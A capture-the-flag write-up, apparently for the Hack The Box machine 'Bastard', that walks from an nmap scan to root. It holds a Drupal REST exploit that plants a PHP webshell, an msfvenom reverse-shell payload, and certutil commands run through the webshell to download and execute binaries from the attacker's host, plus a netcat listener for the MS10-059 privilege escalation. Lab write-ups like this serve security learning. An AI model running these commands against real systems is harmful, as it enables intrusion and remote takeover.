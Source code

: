 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Mon Jul 18 21:08:28 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.079s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   78.77 ms 10.10.14.1
2   78.79 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 18 21:11:24 2022 -- 1 IP address (1 host up) scanned in 177.01 seconds
``` 
</br>

**Initial Shell Vulnerability Exploited:** </br>
Since port 80 was open, I got inside the main page and I could see that it was powered by Drupal: </br>
![main_page](images/bastard/main_page.png) </br>
So I ran a drupal scan using [droopescan](https://github.com/SamJoan/droopescan) tool with the command: ```droopescan scan drupal -u 10.10.10.9``` </br>
![drupal_version](images/bastard/drupal_version.png) </br>
I could see that the drupal version is 7.54 and I found an exploit for that version on [GitHub](https://github.com/PolarisLab/Drupal-Exploit/blob/master/Drupal-Exploit.php). </br>
Before running the exploit, I had to install the PHP-curl package and do some modifications in the exploit
code. </br>
I installed php-curl with this command: ```sudo apt-get install php-curl``` and modified the exploit code: </br>

```bash
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; >
];
```
**$url** - To the machine URL (10.10.10.9) </br>
**$endpoint_path** - was at /rest_endpoint before, but it returned 404 Not found, I tried /rest instead and it worked (returned 200). </br>
**'filename'** - will be the name of the file uploaded to the webserver. </br>
**'data'** - I changed it to a one liner [webshell](https://gist.github.com/sente/4dbb2b7bdda2647ba80b) </br>
I ran the exploit: </br>
![shell_upload](images/bastard/shell_upload.png) </br>
And the webshell seemed to work fine:
![webshell_proof](images/bastard/webshell_proof.png) </br>
# Uploading a Reverse Shell:
I used msfvenom to generate a reverse shell on my Kali: </br>
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4242 -f exe > reverse.exe``` </br>
I then downloaded that on the target machine with certutil, using the webshell: </br>

```bash
10.10.10.9/test.php?cmd=certutil -urlcache -split -f "http://10.10.14.31/reverse.exe" reverse.exe
```

Ran the file while listening to port 4242 on my Kali: </br>
![initial_shell_poc](images/bastard/initial_shell_poc.png) </br>
**Vulnerability Explanation:** One of the feature of the module is that one can control the input/output format by changing the
Content-Type/Accept headers.
one of the input formats is: application/vnd.php.serialized, which is the type given to PHP-serialized data,
that means that this module is vulnerable to trivial unserialize() vulnerability.
The unserialize function can result in code being loaded and executed. </br> </br>
**Initial Shell Screenshot:** </br>
![initial_shell_poc2](images/bastard/initial_shell_poc2.png) </br>
# Privilege Escalation:
I used the [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) tool, and found out the machine was vulnerable to MS10-059. </br>
I found an exploit on [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059), I downloaded the ```exploit.exe``` file to my Kali machine, </br>
and transferred it to the windows machine, using cerutil (I used the webshell from earlier): </br>
```bash
http://10.10.10.9/test.php?cmd=certutil%20-urlcache%20-split%20-f%20%22http://10.10.14.2/privesc.exe%22%20privesc.exe
``` 

I used netcat to listen to 1235 port on my Kali Linux: ```nc -nlvp 1235``` , and ran the exploit on the windows machine: </br>
```privesc.exe 10.10.14.2 1234``` </br> </br>
![privesc_exploit](images/bastard/privesc_exploit.png) </br>
![privesc_exploit2](images/bastard/privesc_exploit2.png) </br>

**Vulnerability Explanation:** The Tracing Feature for Services has incorrect ACLs on its registry keys,
which allows local users to gain privileges via vectors involving a named pipe and impersonation, aka
"Tracing Registry Key ACL Vulnerability." </br>
**Proof Of Screenshot:** </br>
![privesc_poc](images/bastard/privesc_poc.png) </br>

